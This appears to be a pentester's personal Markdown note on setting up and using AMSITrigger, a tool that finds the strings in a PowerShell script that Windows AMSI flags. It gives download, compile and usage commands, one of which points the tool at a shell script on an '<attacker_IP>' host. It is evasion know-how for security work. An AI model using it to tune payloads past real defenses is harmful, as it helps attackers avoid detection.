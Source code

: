 # AMSITrigger

## 01 - Setup

### 1.1 - Download Pre-compiled Binary

```
PS C:\Users\userware\Tools\> mkdir AMSITrigger

PS C:\Users\userware\Tools\AMSITrigger> Invoke-WebRequest -Uri https://github.com/RythmStick/AMSITrigger/releases/download/v3/AmsiTrigger_x64.exe -UseBasicParsing -OutFile AMSITrigger.exe
```

### 1.2 - Compile

- **Install a targeting pack**

https://dotnet.microsoft.com/en-us/download/dotnet-framework/net481

We'll be repeating the steps just like we compiled in [[ThreatCheck#^1f5090|ThreatCheck]]

```
PS C:\Users\userware\Tools> git clone https://github.com/RythmStick/AMSITrigger.git

PS C:\Users\userware\Tools> cd AMSITrigger\AMSITrigger\

PS C:\Users\userware\Tools\AMSITrigger\AMSITrigger> copy Program.cs Program.cs.bak

PS C:\Users\userware\Tools\AMSITrigger\AMSITrigger> dotnet new console --force

PS C:\Users\userware\Tools\AMSITrigger\AMSITrigger> del Program.cs; move Program.cs.bak Program.cs

PS C:\Users\userware\Tools\AMSITrigger\AMSITrigger> dotnet add package Costura.Fody --version 4.1.0

PS C:\Users\userware\Tools\AMSITrigger\AMSITrigger> dotnet add package Fody --version 6.0.0

PS C:\Users\userware\Tools\AMSITrigger\AMSITrigger> dotnet add package NDesk.Options --version 0.2.1

PS C:\Users\userware\Tools\AMSITrigger\AMSITrigger> dotnet publish -r win-x64 -c Release -p:PublishSingleFile=true --sc false
```

![[AMSITrigger.AssemblyInfo Comment Lines.png]]

TODO: figure it out about the MSBuild errors

`PS C:\Users\userware\Tools\AMSITrigger\AMSITrigger> dotnet publish -r win-x64 -c Release -p:PublishSingleFile=true --sc false`

## 02 - Help Menu

```
PS C:\Users\userware\Tools\AMSITrigger> .\AMSITrigger.exe -h
-i, --inputfile=VALUE       Powershell filename
-u, --url=VALUE             URL eg. https://10.1.1.1/Invoke-NinjaCopy.ps1
-f, --format=VALUE          Output Format:
                              1 - Only show Triggers
                              2 - Show Triggers with Line numbers
                              3 - Show Triggers inline with code
                              4 - Show AMSI calls (xmas tree mode)
-d, --debug                 Show Debug Info
-m, --maxsiglength=VALUE    Maximum signature Length to cater for,
                              default=2048
-c, --chunksize=VALUE       Chunk size to send to AMSIScanBuffer,
                              default=4096
-h, -?, --help              Show Help
```

## 03 - Usage

`PS C:\Users\userware\Tools\AMSITrigger> .\AMSITrigger.exe -i /path/to/shell.ps1 -f 3`

`PS C:\Users\userware\Tools\AMSITrigger> .\AMSITrigger.exe -u http[s]://<attacker_IP>/shell.ps1 -f 3`

---
## References

- [AMSITrigger]([https://github.com/RythmStick/AMSITrigger](https://github.com/RythmStick/AMSITrigger))